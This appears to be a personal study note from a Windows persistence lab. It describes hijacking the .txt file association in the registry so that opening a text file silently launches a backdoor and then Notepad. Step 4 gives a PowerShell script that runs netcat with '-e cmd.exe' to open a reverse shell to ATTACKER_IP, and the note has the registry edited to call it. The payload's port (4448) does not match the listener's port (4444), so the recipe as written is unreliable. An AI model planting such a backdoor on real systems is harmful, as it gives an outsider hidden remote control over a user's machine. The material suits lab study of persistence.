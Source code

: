 #### Goal
In addition to persisting through executables or shortcuts, we can ***hijack any file associations to force the operating system to run a shell*** whenever the user opens a specific file type. A ***backdoor payload runs silently***, then opens the expected file normally - preserving behaviour.

#### How it Works
In this example, we are using `.txt` file.

1. The default OS ***file associations are kept inside the registry***:
	- Path: `HKLM\Software\Classes\.txt`
	- `Programmatic ID (ProgID):` A ProgID is simply an identifier to a program installed on the system
		- Shows the **ProgID** for `.txt` -> usually `txtfile.`
		![[ProgID.png]]

2. ***Search for a subkey for the corresponding ProgID:*** `txtfile` in this case
	- Location: `HKLM\Software\Classes\txtfile\shell\open\command`
		![[Subkey.png]]	
	- When you open a `.txt` file, the system will execute: `**%SystemRoot%\system32\NOTEPAD.EXE %1**`, where `%1` represents the name of the opened file.

3. Hijack this extension:
	- We could replace the command with a script that executes a backdoor and then opens the file as usual.

4. Create a Backdoor Script:
	- Save as `C:\Windows\backdoor2.ps1`
		```powershell
		Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4448"
		C:\Windows\system32\NOTEPAD.EXE $args[0]
		```
		Notice, we have to pass **`$args[0]`** to notepad, as it will contain the name of the file to be opened, as given through `%1`.

5. Modify Registry to run our backdoor script:
	![[Modify Registry to execute the backdoor.png]]

6. Create a listener on your kali machine:
```
nc -nvlp 4444
```